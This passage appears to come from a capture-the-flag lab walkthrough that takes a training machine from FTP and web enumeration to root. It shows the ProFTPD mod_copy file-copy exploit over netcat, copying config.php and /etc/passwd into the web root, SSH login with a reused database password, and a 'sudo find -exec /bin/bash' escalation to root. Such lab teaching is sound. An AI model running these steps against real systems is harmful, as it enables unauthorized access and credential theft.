

List the available files and explore. The `/pub/` directory contained three files:

- `README.txt`: a security notice about authorized access
- `base-memo.txt`: contained authorization codes, including the first flag
- `training-roster.txt`: a list of personnel

To read a file inside the FTP client, use `less` (a built-in convenience command) or `get` to download it first and then read it locally. The `cat` command does not work inside an FTP session because the FTP client is not a shell; it only understands FTP protocol commands.

The first flag was in `base-memo.txt`:

```
Flag 1 (Perimeter Breach): TBA-2025-RECON-4781-BRAVO
```

This flag rewarded basic reconnaissance. Anonymous FTP is one of the first things to check whenever port 21 is open, and Nmap's default scripts will tell you whether it is available.

### 9.6 Directory enumeration with Gobuster

With the web server still unexplored beyond its main page, the next step was directory brute-forcing. Gobuster sends HTTP requests for common directory and file names from a wordlist and reports which ones exist based on the response code.

```bash
gobuster dir -u http://10.10.10.23 -w /usr/share/wordlists/dirb/common.txt
```

This is not an attack. It is reconnaissance: testing whether paths like `/admin/`, `/backup/`, `/env/` exist on the server. The wordlist (`common.txt` from dirb, bundled with Kali) contains thousands of common directory and file names.



The output uses HTTP status codes to tell you what it found:

- 200: the path exists and is accessible
- 301: redirect, meaning the path exists (the server is redirecting to a trailing slash or another location)
- 403: forbidden, the path exists but the server blocks access
- 404: not found (Gobuster filters these out by default)

Gobuster found `/env/` with status 301. Browsing to `http://10.10.10.23/env/` showed a directory listing with one file: `config.php`.




### 9.7 Reading config.php (the blank page problem)

Clicking `config.php` in the browser returned a blank page. This is expected behavior, not an error. PHP files execute on the server side. The server runs the PHP code and sends back the output. A configuration file that only defines variables and does not echo anything produces zero output. The browser receives an empty response body (Content-Length: 0).

Attempting to read the source through the browser or curl does not help:

```bash
curl http://10.10.10.23/env/config.php
```

This returns nothing because the server executes the PHP. The raw source code never leaves the server through normal HTTP requests.

To read the source, the file needs to be copied to a different extension (like `.txt`) so the server serves it as plain text instead of executing it. That requires a way to manipulate files on the server.

### 9.8 ProFTPD mod_copy exploit (phase 3 and 4: vulnerability and exploitation)

The ProFTPD 1.3.5 version found during enumeration has a known vulnerability in its `mod_copy` module. Use `searchsploit` (a Kali tool that searches a local copy of Exploit-DB) to find it:

```bash
searchsploit proftpd 1.3.5
```


The `mod_copy` module provides two commands: `SITE CPFR` (copy from) and `SITE CPTO` (copy to). The vulnerability is that these commands can be executed without authentication. Anyone who connects to the FTP port can copy files anywhere on the filesystem, subject to the FTP process's permissions.

This is a file manipulation vulnerability, not RCE. It does not let you run commands directly. But it lets you read files you should not have access to by copying them somewhere the web server will serve them.

The exploit uses `nc` (netcat) instead of a regular FTP client. The difference matters: `nc` sends raw text to a TCP port, so you can type FTP protocol commands directly without any authentication handshake. The `ftp` client wraps the protocol at a higher level and tries to handle login and file transfers for you, which is not what you want here.

```bash
nc 10.10.10.23 21
```

Once connected, issue the copy commands. The first attempt to copy directly to `/var/www/env/` or `/var/ftp/pub/` failed with permission denied. The workaround was to use `/tmp/` (world-writable) as a staging area, then copy from there to `/var/www/` (which the FTP process could write to):

```
SITE CPFR /var/www/env/config.php
350 File or directory exists, ready for destination name
SITE CPTO /tmp/config.txt
250 Copy successful
SITE CPFR /tmp/config.txt
350 File or directory exists, ready for destination name
SITE CPTO /var/www/config.txt
250 Copy successful
```



Now the file is accessible as plain text:

```bash
curl http://10.10.10.23/config.txt
```



The config file contained database credentials:

```php
$db_host = "localhost";
$db_name = "training_ops";
$db_user = "cadet";
$db_pass = "C4d3tTr41n1ng2025!";
```

While at it, use the same technique to grab `/etc/passwd`, which lists all user accounts on the system:

```
SITE CPFR /etc/passwd
350 File or directory exists, ready for destination name
SITE CPTO /var/www/passwd.txt
250 Copy successful
```

```bash
curl http://10.10.10.23/passwd.txt
```



A note on `/etc/passwd`: despite the name, this file does not contain passwords. It lists usernames, UIDs, home directories, and login shells. The `x` in the password field means the actual password hash is stored in `/etc/shadow`, which is readable only by root. The useful information here is which users exist and which ones have a real login shell (`/bin/bash`) as opposed to `/usr/sbin/nologin` or `/bin/false`.

The real users on this machine:

| Username | UID | Shell |
|----------|-----|-------|
| root | 0 | /bin/bash |
| trainadmin | 1000 | /bin/bash |
| cadet | 1001 | /bin/bash |

The username `cadet` matches the database credential. This is worth testing for password reuse.

### 9.9 SSH access with reused credentials (flag 2: Boots on the Ground)

Password reuse is one of the most common findings in penetration tests. People use the same password across multiple services. The database credentials found in `config.php` used the username `cadet` with a password. If the system user `cadet` has the same password, SSH access is possible.

```bash
ssh cadet@10.10.10.23
```

When prompted, enter the password from the config file: `C4d3tTr41n1ng2025!`

It worked.




The second flag was in the user's home directory:

```bash
cat /home/cadet/user.txt
```



This flag rewarded chaining vulnerabilities: the mod_copy exploit gave access to the config file, the config file gave credentials, and password reuse turned database credentials into SSH access. No single vulnerability was severe on its own. Together they gave a full user shell.

### 9.10 Phase 5: post-exploitation and privilege escalation (flag 3: Full Command)

With a user shell, the goal is root. Start by checking what the current user can do with `sudo`:

```bash
sudo -l
```

Output:

```
User cadet may run the following commands on recruit:
    (root) NOPASSWD: /usr/bin/find
```

This means `cadet` can run the `find` command as root without a password. This is a textbook sudo misconfiguration and one of the most straightforward privilege escalation paths on Linux.

The `find` command has an `-exec` flag that runs another command on each result. When `find` runs as root (via `sudo`), anything it executes also runs as root:

```bash
sudo find . -exec /bin/bash \;
```

This tells `find` to look in the current directory (`.`) and execute `/bin/bash` for each result. Since `find` is running as root, the shell it spawns is a root shell.

```bash
whoami
root
```



The third flag was in root's home directory:

```bash
cat /root/root.txt
```

For reference, other enumeration steps that were checked but did not lead anywhere on this machine:

```bash
# Check for SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Check kernel version (for kernel exploits)
uname -a

# Check cron jobs
crontab -l
ls -la /etc/cron.d/
```

The `sudo -l` finding was enough. In a real engagement, you would still run these checks (or use LinPEAS) to document all available paths, not just the first one that works. GTFOBins (gtfobins.github.io) is the reference for which binaries can be abused through sudo, SUID, or capabilities; `find` is one of the most well-known entries there.

